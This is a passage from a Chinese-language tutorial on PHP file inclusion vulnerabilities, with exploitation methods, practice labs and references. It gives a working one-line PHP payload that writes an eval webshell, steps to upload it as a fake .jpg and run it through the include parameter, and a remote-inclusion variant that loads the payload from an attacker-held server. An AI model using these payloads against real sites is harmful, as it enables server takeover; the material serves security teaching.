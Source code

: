 在URL中#要用%23替代，否则浏览器默认不会传输特殊字符。

### 总结
网上找了一张图可以总结一部分伪协议。
![avatar](https://img-blog.csdn.net/20180606180044611)


## 漏洞利用方式总结
1.直接进行文件的遍历读取（读取敏感信息）

2.解析符合php规范的任何文件（本地包含配合文件上传）：
   
>可以利用文件包含函数可以解析任何符合PHP规范的文件的特性，结合文件上传获取webshell。

利用过程：

(1) 上传Web应用指定类型的文件，如：shell.jpg（需要确认文件上传后的绝对路径）

`<?fputs(fopen("shell.php","w"),"<?php @eval($_POST[topo]);?>")?>`

(2) 使用文件包含漏洞，直接解析上传的非php后缀的文件，获取webshell。
访问URL：http://www.xxx.com/index.php?page=./shell.jpg 在本地生成shell.php

3.远程包含Shell

(1) 先写一个test.txt文件，保存在自己的远程服务器xxx上，内容如下：

`<?fputs(fopen("shell.php","w"),"<?php eval($_POST[topo]);?>")?>`

(2) 则可以通过访问：http://www.xxx.com/index.php?page=http://www.xxx.com/test.txt

则会在服务器根目录下生产一个shell.php


## 漏洞靶场
推荐3个已知有文件包含漏洞的靶场：

* DVWA

* bWAPP

* webug


## 参考

* https://www.freebuf.com/articles/web/182280.html

* https://segmentfault.com/a/1190000016042983

* 《白帽子讲Web安全》

* https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/#%E5%8C%85%E5%90%ABsession

* https://blog.csdn.net/zpy1998zpy/article/details/80598768